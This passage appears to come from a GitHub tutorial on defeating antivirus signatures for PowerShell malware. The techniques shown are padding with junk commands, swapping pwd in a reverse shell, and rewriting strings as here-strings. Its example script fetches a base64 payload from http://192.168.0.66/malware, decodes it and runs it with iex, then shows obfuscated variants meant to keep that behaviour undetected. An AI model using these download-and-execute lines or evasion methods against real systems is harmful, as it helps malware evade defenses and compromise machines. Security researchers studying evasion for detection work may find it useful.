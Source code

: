 ### Append random objects
You can "pollute" a script with random variables and functions. Assume the following script as malicious:  
```powershell
$b64 = $(irm -uri http://192.168.0.66/malware); 
$virus = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($b64));
iex $virus;
```

You might be able to break its signature by doing something like:
```powershell
$b64 = $(irm -uri http://192.168.0.66/malware); sleep 0.01;sleep 0.01;Get-Process | Out-Null;
$virus = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($b64));sleep 0.01;sleep 0.01;Measure-Object | Out-Null;
iex $virus;
```


## Substitute Commands
You can always look for commands or even whole code blocks in a script that you can substitute with components that have the same/similar functionality. In the following classic reverse shell script, the `pwd` command is used to retrieve the current working directory and reconstruct the shell's prompt value:  
![image](https://user-images.githubusercontent.com/75489922/231549917-26ec7969-f2ea-4fbc-ae00-931e92947064.png)

The `(pwd).Path` part can be replaced by the following weird, unorthodox little script and although it even includes `pwd` it does serve our purpose of breaking the signature while maintaining the functionality of the script:
```powershell
"$($p = (Split-Path `"$(pwd)\\0x00\`");if ($p.trim() -eq ''){echo 'C:\'}else{echo $p})"
```  
There are of course simpler substitutes for `pwd` like `gl`, `get-location` and `cmd.exe /c chdir` that could do the trick, especially in combination with other techniques.

## Mess With Strings
There's no end to what one can do with strings. Find below some interesting concepts. Examples use the string `'malware'`:

### Convert string to here-string  
At the expense of adding a few new lines, you can turn a string into a here-string.  
This:  
```powershell
$x = 'echo malware';
iex $x;
```
Is the same as:
```powershell
$x = 'echo malware';
iex @"
$x
"@
```
